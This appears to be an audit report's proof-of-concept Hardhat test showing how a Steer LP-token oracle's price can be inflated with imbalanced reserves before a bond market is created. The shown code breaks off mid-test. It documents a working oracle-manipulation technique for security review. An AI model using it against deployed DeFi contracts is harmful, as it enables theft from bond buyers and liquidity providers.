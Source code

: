 ##### Proof of Concept

This test can be found in BondFixedTermSteerOFDA.test.ts (with a modified MockSteerPool) :

```
it("should demonstrate price manipulation through reserve changes", async () => {
        // Configure oracle
        const encodedSteerConfig = ethers.utils.defaultAbiCoder.encode(
            ["tuple(address, bool)"], 
            [[steerToken.address, false]]
        );
        await oracle.setPair(steerToken.address, payoutToken.address, true, encodedSteerConfig);

        // Get initial LP token price
        const initialPrice = await oracle["currentPrice(address,address)"](steerToken.address, payoutToken.address);
        console.log("Initial LP token price:", initialPrice.toString());

        // Attacker manipulates reserves by adding large amount of liquidity with imbalanced reserves
        // This creates a price discrepancy
        await steerToken.setToken0Amount(ethers.utils.parseEther("10000")); // Large amount of token0
        await steerToken.setToken1Amount(ethers.utils.parseEther("100")); // Keep token1 small
        await steerToken._setTotalSupply(ethers.utils.parseEther("1000")); // Increase total supply proportionally

        // Get manipulated price
        const manipulatedPrice = await oracle["currentPrice(address,address)"](steerToken.address, payoutToken.address);
        console.log("Manipulated LP token price:", manipulatedPrice.toString());

        // Create bond market with manipulated price
        const encodedParams = ethers.utils.defaultAbiCoder.encode(
            ["tuple(address, address, address, address, uint48, uint48, bool, uint256, uint48, uint48, uint48, uint48)"],
            [
                [
                    payoutToken.address,
                    steerToken.address,
                    ethers.constants.AddressZero,
                    oracle.address,
                    "20000", // baseDiscount
                    "50000", // maxDiscountFromCurrent 
                    false,   // capacityInQuote
                    ethers.utils.parseEther("10000"), // capacity
                    "360000", // depositInterval
                    vestingLength,
                    "0", // start
                    bondDuration,
                ]
            ]
        );

        await auctioner.createMarket(encodedParams);
        const bondMarketPrice = await auctioner.marketPrice(0);
        console.log("Bond market price:", bondMarketPrice.toString());

        // Verify manipulation occurred
        expect(manipulatedPrice).to.be.gt(initialPrice);

        // Attacker can now remove the extra liquidity
        await steerToken.setToken0Amount(ethers.utils.parseEther("100"));
        await steerToken.setToken1Amount(ethers.utils.parseEther("100"));
```